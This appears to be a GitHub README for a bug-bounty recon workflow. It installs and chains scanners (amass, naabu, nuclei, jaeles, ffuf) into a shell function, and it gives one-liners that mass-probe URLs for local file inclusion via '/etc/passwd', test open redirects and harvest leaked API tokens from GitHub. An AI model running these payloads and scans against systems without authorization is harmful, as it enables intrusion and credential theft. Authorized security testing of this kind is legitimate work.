 # Recon-bugbounty

<a href="https://www.buymeacoffee.com/hackerspider1" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" style="height: 51px !important;width: 217px !important;" ></a>
[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://paypal.me/hackerspider1)


Simple recon using multiple tools!

If you have Go installed and configured (i.e. with $GOPATH/bin in your $PATH):

### Install Assetfinder

`
▶ go get -u github.com/tomnomnom/assetfinder
`

### Install anew

`
▶ go get -u github.com/tomnomnom/anew
`

### Install Amass

If you have brew installed if not `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"`

`
▶ brew install amass
`

### Install Subfinder

`
▶ go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
`

### Install httpx

`
▶ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
`

### Install Aquatone

- Download the [latest release](https://github.com/michenriksen/aquatone/releases/latest) of Aquatone for your operating system.
- Uncompress the zip file and move the aquatone binary to your desired location. You probably want to move it to a location in your $PATH for easier use.

### Install Naabu

`
▶ go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest
`

### Install Subjack

`
▶ go get github.com/haccer/subjack
`

### Install Nuclei

`
▶ go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
`

### Install Jaeles

If you have a Go environment, make sure you have Go >= 1.13 with Go Modules enable and run the following command.

`
▶ GO111MODULE=on go get github.com/jaeles-project/jaeles
`

### Install ffuf

`
▶ go get -u github.com/ffuf/ffuf
`
You can use dirsearch as well.

`
▶ pip3 install dirsearch
`

Download the wordlist `▶ wget "https://raw.githubusercontent.com/hackerspider1/Recon-bugbounty/main/dir.txt"`

# Enum

Add the following in your .zshrc

```
enum(){
        assetfinder -subs-only "$1" | tee -a domains
        cat domains | anew domains.txt
	amass enum -brute -active --passive -d "$1" -o domains -config ~/.config/amass/config.ini
        cat domains | anew domains.txt
        rm domains
        subfinder -silent -d "$1" -o domains
        cat domains | anew domains.txt
        rm domains
        cat domains.txt | httpx -silent | tee -a hosts.txt
        cat domains.txt | aquatone -out screens -scan-timeout 200 -screenshot-timeout 60000 -ports xlarge
        naabu -silent -iL domains.txt > portscan.txt
        subjack -w domains.txt -t 100 -timeout 20 -o subjack_out.txt --ssl -c ~/fingerprints.json
	nuclei -l hosts.txt -t cves/ | tee -a vuln.txt
	jaeles scan -s ~/.jaeles/ -U hosts.txt
	for i in $(cat hosts.txt); do ffuf -u $i/FUZZ -w ~/Documents/bugbounty/wordlist/dir.txt -ac -c -e php,txt,asp,html,aspx; done
}
```

You can add Git-hound ass well in it

- Download the [latest release of GitHound](https://github.com/tillson/git-hound/releases)
- Create a ./config.yml or ~/.githound/config.yml with your GitHub username and password. Optionally, include your 2FA TOTP seed. See [config.example.yml](https://github.com/tillson/git-hound/blob/master/config.example.yml).
- If it's your first time using the account on the system, you may receieve an account verification email.

`echo "guptashubham.com" | git-hound`

add following line in the last of #enum (.zshrc)

```
echo "$1" | git-hound
```

# Aemhack

```
git clone https://github.com/0ang3el/aem-hacker.git
cd aem-hacker
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```
Add it to .zshrc

`aemhack (){
python3 ~/aem-directory/aem-hacker/aem_hacker.py -u $1 --host $2
}`

# One-Liner

### LFI

```
lfi () {
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
}
```

### Open-redirect

```
open-redirect () {
local LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
}
```

### Githound

```
githound(){
echo "$1" | git-hound --dig-files --dig-commits --many-results --regex-file key.txt --results-only > api_tokens.txt"
}
```

# Thanks
#### We use tools which are developed by the following people
[OWASP](https://github.com/OWASP/), [ProjectDiscovery](https://github.com/projectdiscovery/), [Tom Hudson](https://github.com/tomnomnom/), [Tillson Galloway](https://github.com/tillson), [0ang3el](https://github.com/0ang3el), [Michael Henriksen](https://github.com/michenriksen), [Jaeles Project](https://github.com/jaeles-project)

Let me know one-liner owner would like to give credit!!
